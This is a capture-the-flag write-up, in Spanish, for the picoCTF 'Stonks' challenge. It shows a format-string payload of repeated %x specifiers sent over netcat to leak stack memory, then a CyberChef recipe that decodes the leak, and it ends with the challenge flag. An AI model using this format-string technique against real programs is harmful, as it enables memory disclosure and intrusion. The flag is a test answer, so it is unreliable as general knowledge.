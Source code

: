 ## Descripcion
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`
## Pistas 
****** 
## Solucion
```
jt@jt-VirtualBox:~/Desktop/repos/files/stonks$ nc mercury.picoctf.net 53437
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x 
Buying stonks with token:
9e7b350_804b000_80489c3_f7f1fd80_ffffffff_1_9e79160_f7f2d110_f7f1fdc7_0_9e7a180_3_9e7b330_9e7b350_6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_34636462_61653532_ffb1007d_f7f5aaf8_f7f2d440_f659ce00_1_0_f7dbcce9_f7f2e0c0_f7f1f5c0_f7f1f000_ffb16af8_f7dad68d_f7f1f5c0_8048eca_ffb16b04_0_f7f41f09_804b000_f7f1f000_f7f1fe20_ffb16b38_f7f47d50_f7f20890_f659ce00_f7f1f000_804b000_ffb16b38_8048c86_9e79160_ffb16b24_ffb16b38_8048be9_f7f1f3fc_0_ffb16bec_ffb16be4_1_1_9e79160_f659ce00_ffb16b50_0_0_f7d62fa1_f7f1f000_f7f1f000_0_f7d62fa1_1_ffb16be4_ffb16bec_ffb16b74_1_0_f7f1f000_f7f4270a_f7f5a000_0_f7f1f000_0_0_9fea1faa_516279ba_0_0_0_1_8048630_0_f7f47d50_f7f42960_804b000_1_8048630_0_8048662_8048b85_
Portfolio as of Thu May 18 19:10:37 UTC 2023


3 shares of HEU
115 shares of OT
80 shares of GVAN
Goodbye!

```

[Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Swap_endianness('Raw',4,true))
```
50_804b000_80489c3_f7f1fd80_ffffffff_1_9e79160_f7f2d110_f7f1fdc7_0_9e7a180_3_9e7b330_9e7b350_6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_34636462_61653532_ffb1007d_f7f5aaf8_f7f2d440_f659ce00_1_0_f7dbcce9_f7f2e0c0_f7f1f5c0_f7f1f000_ffb16af8_f7dad68d_f7f1f5c0_8048eca_ffb16b04_0_f7f41f09_804b000_f7f1f000_f7f1fe20_ffb16b38_f7f47d50_f7f20890_f659ce00_f7f1f000_804b000_ffb16b38_8048c86_9e79160_ffb16b24_ffb16b38_8048be9_f7f1f3fc_0_ffb16bec_ffb16be4_1_1_9e79160_f659ce00_ffb16b50_0_0_f7d62fa1_f7f1f000_f7f1f000_0_f7d62fa1_1_ffb16be4_ffb16bec_ffb16b74_1_0_f7f1f000_f7f4270a_f7f5a000_0_f7f1f000_0_0_9fea1faa_516279ba_0_0_0_1_8048630_0_f7f47d50_f7f42960_804b000_1_8048630_0_8048662_8048b85
```
## bandera
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
## Notas adicionales 

## Referencias